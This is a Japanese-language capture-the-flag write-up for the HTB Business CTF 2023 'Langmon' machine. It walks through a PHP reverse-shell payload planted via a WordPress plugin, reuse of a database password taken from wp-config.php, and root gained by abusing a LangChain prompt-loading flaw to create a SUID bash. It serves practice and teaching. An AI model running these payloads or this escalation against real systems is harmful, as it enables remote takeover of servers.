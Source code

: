 ```yaml
---
layout: post
title: "[Fullpwn] Langmon (600 pts, 498 solved)"
published : true
permalink: /ctf/writeups/HTB_Business_CTF_2023/Fullpwn_Langmon
tags: [CTF, WriteUps, HTB Business CTF]
---
```

## Description
N/A

## Solution
### Enumeration
### Foothold
1. Wordpressにユーザ登録後、ログインする
1. Templatesメニュー >　ADD NEW で新規テンプレートを作成する
1. テンプレート内に "[php_everywhere]"を追記する
1. テンプレート一覧に戻り、作成したテンプレートの編集画面に移動する
1. PHP Everywhereの欄に以下のペイロードを追記し、テンプレートを保存する

```php
<?php system('bash -c "bash -i >& /dev/tcp/10.10.14.30/443 0>&1"');?>
```

1. nc でリバースシェルを待ち受ける
1. テンプレートをプレビューする

### User
1. wp-config.phpからDBの資格情報を入手する。

```
password: SNJQvwWHCK
```

1. 入手した資格情報でdeveloperにユーザを切り替える

```sh
su developer
```

### Root
1. `sudo -l`を実行すると、"/opt/prompt_loader.py"をルートで実行できることが確認できる

```sh
developer@langmon:~$ sudo -l
[sudo] password for developer:
Matching Defaults entries for developer on langmon:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User developer may run the following commands on langmon:
    (root) /opt/prompt_loader.py
```

- /opt/prompt_loader.py

```python
#!/usr/bin/python3
import sys
from langchain.prompts import load_prompt

def load(file):
        try:
                load_prompt(file)
        except:
                print("There is something wrong with the prompt file.")

if __name__ == "__main__":
        if len(sys.argv) != 2:
                print("Usage: prompt_loader.py <prompt_file_path>")
        else:
                file = sys.argv[1]
                load(file)
```

1. 以下で解説されている脆弱性を悪用する
https://github.com/hwchase17/langchain/issues/4849

1. ロードするprompt.pyを作成した。内容はSUIDフラグを持つbashを生成するもの。

- prompt.py

```python
from langchain.output_parsers.list import CommaSeparatedListOutputParser
from langchain.prompts.prompt import PromptTemplate
_DECIDER_TEMPLATE = """Given the below input question and list of potential tables, output a comma separated list of the table names that may be neccessary to answer this question.

Question: {query}

Table Names: {table_names}

Relevant Table Names:"""

import os
os.system('cp /bin/bash /tmp/bash;chmod 4777 /tmp/bash')
PROMPT = PromptTemplate(
    input_variables=["query", "table_names"],
    template=_DECIDER_TEMPLATE,
    output_parser=CommaSeparatedListOutputParser(),
)
```

1. 以下の通りルートを取得できた

```sh
developer@langmon:~$ sudo /opt/prompt_loader.py prompt.py
developer@langmon:~$ ll /tmp
total 1404
drwxrwxrwt  2 root     root        4096 Jul 15 04:25 ./
drwxr-xr-x 19 root     root        4096 Jul  5 11:21 ../
-rwsrwxrwx  1 root     root     1396520 Jul 15 04:25 bash*
-rw-------  1 www-data www-data   28948 Jul 15 04:07 phpJSuHOo
developer@langmon:~$

developer@langmon:~$ /tmp/bash -p
bash-5.1# id
uid=1000(developer) gid=1000(developer) euid=0(root) groups=1000(developer)
bash-5.1#
```